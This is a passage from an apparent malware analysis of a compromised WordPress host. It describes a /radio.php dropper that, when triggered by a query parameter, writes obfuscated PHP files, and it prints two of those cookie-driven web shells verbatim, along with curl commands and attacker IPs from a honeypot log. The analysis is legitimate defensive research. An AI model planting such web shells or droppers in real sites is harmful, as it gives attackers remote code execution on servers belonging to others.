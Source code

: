 The `submit_to_google_index()` function builds the equivalent of this URL: `https://www.google.com/ping?sitemap=https://<victim hostname>/<sitemap file>` which is [a well-documented Google Webmaster API](https://developers.google.com/search/docs/crawling-indexing/sitemaps/build-sitemap#addsitemap). Since the `robots.txt` file was deleted, Google will index all files.

---------------------


### `/radio.php`

The `/radio.php` files (plural, because there were 291 `radio.php` files throughout the infected host) is not obfuscated like the other files, but it *does* randomly generate new files that *are* highly obfuscated

`gist:joshterrill/5a7f73032d121ed6295b651e5cfff107#radio.php`

When this file is requested with a query parameter of `imam=doit`, a random number is generated between 20-30, and a loop is started that chooses numbers between 4 and the random number length - 2. These numbers are pushed into the `$key_store` array until it gets to the 5th iteration of the loop, then it inserts the random number that was generated at index 5.

Some strings are defined that will be used as the contents of two new files that will be written by `/radio.php`. One of which is an `.htaccess` file, and the other being a randomly generated filename that is either created in a subdirectory of `/wp-content`, or in whatever writeable subdirectory `/radio.php` can find.

A link is generated to the path of the file that was saved with a random name, then echoed out on `/radio.php`. It's likely that the C2 server would call the `/radio.php` file, triggering the obfuscated code to be saved in a randomly generated file, as well as the password that was used to create it.

We can use `curl` to mimic what the C2 would be seeing when it makes this request:

```shell{promptUser: josh}{promptHost: victimdomain.com}
curl "https://victimdomain.com/radio.php?imam=doit"
http://victimdomain.com////0bda96d.php 4-13-8-17-5-20
curl "https://victimdomain.com/radio.php?imam=doit"
http://victimdomain.com////9f4f700.php 21-28-23-15-11-30
```

The resulting files from these requests are:

```shell{promptUser: josh}{promptHost: victimdomain.com}
cat 0bda96d.php
<?php $p=$_COOKIE;(count($p)==20&&in_array(gettype($p).count($p),$p))?(($p[13]=$p[13].$p[8])&&($p[17]=$p[13]($p[17]))&&($p=$p[17]($p[4],$p[13]($p[5])))&&$p()):$p;
cat 9f4f700.php
<?php $p=$_COOKIE;(count($p)==30&&in_array(gettype($p).count($p),$p))?(($p[28]=$p[28].$p[23])&&($p[15]=$p[28]($p[15]))&&($p=$p[15]($p[21],$p[28]($p[11])))&&$p()):$p;
```

In order to find out what the attacker is doing, we need to understand what is inside the attacker's `$_COOKIE`.

Looking through the log file from the honeypot, we see some requests being made with large `$_COOKIE` strings coming from several different IP's: 68.178.221.131, 49.236.200.213, 151.80.67.229, and 187.103.250.210.
